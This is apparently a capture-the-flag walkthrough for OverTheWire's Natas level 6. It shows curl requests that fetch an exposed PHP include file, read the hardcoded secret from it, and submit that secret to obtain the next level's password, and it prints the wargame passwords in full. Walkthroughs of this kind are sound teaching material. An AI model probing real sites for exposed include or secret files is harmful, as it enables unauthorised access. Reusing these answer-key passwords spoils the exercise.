

# Natas Level 5 → Level 6 

## 🧠 Goal

Find password to the next level

---

## 🔐 Credentials

- **Username:** `natas6`  
- **Host:** `http://natas6.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `0RoJwHdSKWFTYR5WuiAewauSuNaBXned` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned http://natas6.natas.labs.overthewire.org  
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "0RoJwHdSKWFTYR5WuiAewauSuNaBXned" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
http://natas6.natas.labs.overthewire.org/index-source.html \
| html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2933  100  2933    0     0  12790      0 --:--:-- --:--:-- --:--:-- 12807
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</
script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
```bash
──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
http://natas6.natas.labs.overthewire.org/includes/secret.inc \
| html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    39  100    39    0     0    172      0 --:--:-- --:--:-- --:--:--   173
$secret = "FOEIUWGHFEEUHOFUOIU"; ?>
```
```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
--data "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit" \
http://natas6.natas.labs.overthewire.org/ | html2text

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1105  100  1065  100    40   4613    173 --:--:-- --:--:-- --:--:--  4804
****** natas6 ******
Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
Input secret:[secret              ]
[Submit]
View sourcecode
```


or you can just use the browser 
___

## 💡 Tips

💡 Your HTML form:
```html
<form method="post">
  Input secret:
  <input name="secret">
  <input type="submit" name="submit">
</form>
```
secret=FOEIUWGHFEEUHOFUOIU is the value entered by the user.

submit=Submit is the name and value of the submit button.

┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
--data "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" \
http://natas6.natas.labs.overthewire.org/ | html2text


```bash
sudo apt install html2text
```
if u pipe using html2text it will render the html
___

## 📤 Output
```bash
bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
```
